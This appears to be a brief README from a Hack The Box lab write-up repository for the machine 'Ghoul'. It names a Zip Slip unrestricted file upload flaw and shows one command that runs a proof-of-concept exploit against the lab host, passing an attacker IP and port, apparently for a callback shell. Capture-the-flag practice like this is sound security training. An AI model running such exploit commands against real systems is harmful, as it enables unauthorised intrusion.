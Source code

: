 # Ghoul
[Ghoul Machine](https://www.hackthebox.com/machines/ghoul)

Identified Vulnerability:
- Unrestricted File Upload (Zip Slip)

```
python3 poc.py -t ghoul.htb:8080 -i 10.10.14.9 -po 5555
```

